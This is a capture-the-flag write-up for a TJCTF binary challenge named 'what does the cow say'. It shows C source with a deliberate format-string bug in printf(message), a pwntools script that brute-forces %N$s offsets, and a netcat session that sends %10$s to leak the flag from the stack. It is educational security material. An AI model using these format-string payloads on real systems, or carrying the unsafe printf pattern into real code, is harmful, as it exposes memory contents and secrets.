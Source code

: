 We're given a binary and the source code.
The binary given to us is 64-bit LSB, not stripped, meaning we can read function names.

## Protections

Running a `checksec`, we get the following:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   35 Symbols        No    0               2               chall
```

| Protection | Enabled | Usage |
| -------- | -------- | -------- |
| Canary     | ✔    | Prevent stack overflows     |
| NX     |✔    | Disables code execution on the stack     |
| PIE     | ✔    | Randomizes the binary's base address     |
| RelRO     | Partial    | Makes some sections of the binary read-only     |

## Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char message[1024];
  char flag[64];
  char *flag_pointer = flag;

  puts("what does the cow say???");

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("No flag file. Create one locally to test.");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  printf("> ");
  fgets(message, sizeof(message), stdin);
  printf(" ");
  printf("____________________________________\n");
  printf("< ");
  // printf vulnerability here
  printf(message);
  printf(" >\n");
  printf(" ----------------------------------\n");
  printf("        \\   ^__^\n");
  printf("         \\  (oo)\\_______\n");
  printf("            (__)\\       )\\/\\\n");
  printf("                ||----w |\n");
  printf("                ||     ||\n");
  return;
}
```

To test locally, create a `flag.txt`.
From the source code, we see that we have a `printf` vulnerability, so we can leak the contents of `flag` from the stack.

## Exploit

```py
import pwn

elf = pwn.ELF('./chall')

for i in range(1,256):
	print(f"{i} offset")
	payload = b"".join(
		[
			b"%" + str(i).encode('utf-8') + b"$s",
		])
	p = elf.process()
	p.sendlineafter(b"> ", payload)
	response = p.recvall().decode('latin-1')
	print(response)
	if "flag{win}" in response:
		break
```

We learn that the flag is the 10th element leaked from the stack.
Send `%10$s` to the remote server and get the flag.

```
└─$ nc tjc.tf 31258
what does the cow say???
> %10$s
 ____________________________________
< tjctf{m0o0ooo_f0rmat_atTack1_1337}

 >
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
